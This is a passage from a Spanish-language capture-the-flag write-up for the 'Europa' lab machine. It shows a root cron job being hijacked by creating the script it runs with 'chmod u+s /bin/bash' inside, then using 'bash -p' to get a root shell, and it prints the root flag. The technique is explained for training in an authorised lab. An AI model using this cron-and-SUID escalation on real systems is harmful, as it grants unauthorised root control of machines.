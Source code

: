 Si tratamos de ver el archivo, podemos observar que este no existe, pero podemos crearlo.

```bash
www-data@europa:/home/john$ touch /var/www/cmd/logcleared.sh
```

Ya que el usuario `root` esta ejecutando la tarea cron, vamos a insertar un codigo en donde otorguemos el permiso `suid` a la bash.


```bash
#!/bin/bash

chmod u+s /bin/bash
```

Ahora revisamos el permiso de la bash y podemos convertirnos en el usuario `root` y visualizar la segunda flag `root.txt`.

```bash
www-data@europa:/home/john$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
www-data@europa:/home/john$ bash -p
bash-4.3# cd /root
bash-4.3# cat root.txt 
5245239446324bb1fe4343385751f280
```
